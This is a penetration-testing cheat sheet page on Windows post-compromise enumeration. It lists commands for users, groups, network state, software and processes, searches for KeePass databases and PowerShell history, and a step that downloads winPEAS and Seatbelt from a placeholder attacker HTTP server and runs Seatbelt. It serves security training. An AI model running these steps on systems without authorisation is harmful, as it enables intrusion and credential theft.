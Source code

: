 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Internal Enumeration

## Basic Enumeration

Username and hostname:

```batch
whoami
hostname
```

Group memberships of the current user:

```batch
whoami /groups
```

Existing users and groups:

{% tabs %}
{% tab title="PowerShell" %}
```powershell
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember <group_name>
```
{% endtab %}

{% tab title="Batch" %}
```batch
net user
```
{% endtab %}
{% endtabs %}

Operating system, version and architecture:

```batch
systeminfo
```

Network information:

```batch
ipconfig /all
route print
netstat -ano
```

Installed applications:

{% code overflow="wrap" %}
```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
{% endcode %}

Running processes:

```powershell
Get-Process
Get-Process <Proccess> | select Path
```

Search for files:

{% code overflow="wrap" %}
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\xampp -Include *.bin *.txt -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users -Include *.txt -File -Recurse -ErrorAction SilentlyContinue
```
{% endcode %}

PowerShell history:

```
Get-History
(Get-PSReadlineOption).HistorySavePath
```

PowerShell history event logs:

```
Get-WinEvent Microsoft-Windows-PowerShell/Operational | Where-Object Id -eq 4104 | ForEach-Object { $_.Message } | findstr "dave*"
```

## Automated Enumeration

Download and execute **`winPEAS`** and **`Seatbelt`**:

```powershell
iwr -uri http://<attacker_http_server>/winPEASx64.exe -Outfile winPEAS.exe
iwr -uri http://<attacker_http_server>/Seatbelt.exe -Outfile Seatbelt.exe
.\Seatbelt.exe -group=all
```

## References

{% embed url="https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS" %}
winPEAS
{% endembed %}
